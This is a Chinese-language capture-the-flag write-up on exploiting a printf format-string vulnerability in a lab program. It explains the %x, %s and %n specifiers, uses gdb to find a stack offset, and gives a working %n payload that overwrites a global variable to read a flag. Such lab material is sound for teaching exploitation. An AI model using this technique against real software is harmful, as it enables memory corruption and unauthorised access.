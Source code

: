 # Format
[format.c](format.c)有 **string format vulnerability** ，利用它把一個global integer改成1337。
 * 察看[wiki page](https://en.wikipedia.org/wiki/Printf_format_string)，format function怎麼處理format string和parameter：
  1. format function可以傳入任意長度的parameter
  2. 做什麼事由format string控制
  3. parameter被直接(by value)或間接(by reference address)的push到stack上，等待遇到 `%`字元時被pop出來

那麼，如果我寫一個沒有給參數卻允許傳入format string控制format function的程式碼：`printf(argv[1])`，會怎樣呢？
 * 如果argv[1] =
  * `%d`, `%u`, `%x`, 會把stack最上方的item裡的值pop出來，分別以decimal, unsigned decimal,或hexadecimal表示出來
  * `%s`：正常情況在被處理的時候，stack指到的地方存有字串的reference位址，把位址pop出來，用這位址去找對應的數值並當作字串印出來。但如果不給變數，會直接把stack pointer目前指到的當位址去找資料印出來
  * `%n`：正常情況：`printf("hello%n", &var);` 把length("hello") = 5寫入var裡。但是如果後面不給變數，會直接把目前有多少byte**直接寫入stack pointer目前指到的位址**！！
## Solve
format string 只能寫到stack上，那要怎麼把secret改成1337呢？
 1. code中有一行：`int *ptr = &secret;`
  * ptr已經把secret的位址存到stack裡了
 2. 使用gdb找出secret位置：`(gdb) print &secret`，&secret = 0x804a030
 3. `(gdb) run %08x.%08x.%08x.%08x.%08x.%08x....`找出含有stack addr的是第幾個，找到是第7個。
 4. 把stack倒數第七個改成1337：呼叫`%n`把目前這個字串在`%n`前的byte數目push進%esp指到的地方
  * 湊1337byte：`%[?]u.%08x.%08x.%08x.%08x.%08x.%n`
   * [?] = 1337 - (6個`.`(1 byte)+5個`%08x`(8 byte)) = 1291
 5. 取得flag
```bash
(gdb) run %1291u.%08x.%08x.%08x.%08x.%08x.%n
Starting program: /home/fomat/format %1291u.%08x.%08x.%08x.%08x.%08x.%n
$ ls
flag.txt    format    format.c    Makefile
$ cat flag.txt
cat: flag.txt:  Permission denied
$ ./format %1291u.%08x.%08x.%08x.%08x.%08x.%n
$ cat flag.txt
who_thought_%n_was_a_good_idea?
```
## 參考資料
 * [format-string-attack教學](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
